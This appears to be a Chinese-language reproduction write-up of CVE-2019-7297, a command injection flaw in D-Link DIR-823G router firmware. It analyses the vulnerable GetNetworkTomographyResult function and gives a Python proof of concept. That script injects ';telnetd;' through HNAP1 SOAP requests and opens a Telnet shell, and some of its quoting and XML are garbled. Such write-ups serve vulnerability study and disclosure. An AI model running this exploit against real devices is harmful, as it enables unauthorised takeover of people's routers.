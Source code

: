 ```yaml
---
title: （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞
id: zhfly3382
---
```


# （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult函数中调用system函数，执行的内容中包括不受信任的用户输入Address字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的GetNetworkTomographyResult函数是在goahead二进制文件中实现的。在function_list中找到对应的函数地址。

GetNetworkTomographyResult获取address，number，size参数，作为ping的参数。

![image](../img/6b1a5ebfd9ed8143ff5353b86dcdd079.png)

```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt 
```

但在system之前并没有对这些外来参数进行检查，如果address为`;telnetd;`就能启动Telnet服务。可以看出这些参数都是通过apmib_get获取的，那么在之前一定有apmib_set进行设置，在IDA中查找关键字0x1b72，0x1b73，0x1b73，定位到apmib_set的位置，结合ghidra的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。

![image](../img/bbd00b5d5875de0d5d0869f4e5d077ba.png)

### poc

```
import requests
from pwn import *

IP=‘192.168.0.1’

headers = requests.utils.default_headers()

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/SetNetworkTomographySettings](http://purenetworks.com/HNAP1/SetNetworkTomographySettings)”’

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“Accept”]="*/*"

headers[“Accept-Encoding”]=“gzip, deflate”

headers[“Accept-Language”]=“zh-CN,zh;q=0.9,en;q=0.8”

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<SetNetworkTomographySettings xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

<Address>;telnetd;</Address>

<Number>4<Number>

<Size>4</Size>

</SetNetworkTomographySettings></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/GetNetworkTomographyResult](http://purenetworks.com/HNAP1/GetNetworkTomographyResult)”’

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<GetNetworkTomographyResult xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

</GetNetworkTomographyResult></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text `p=remote(IP,23)

p.interactive()` 
```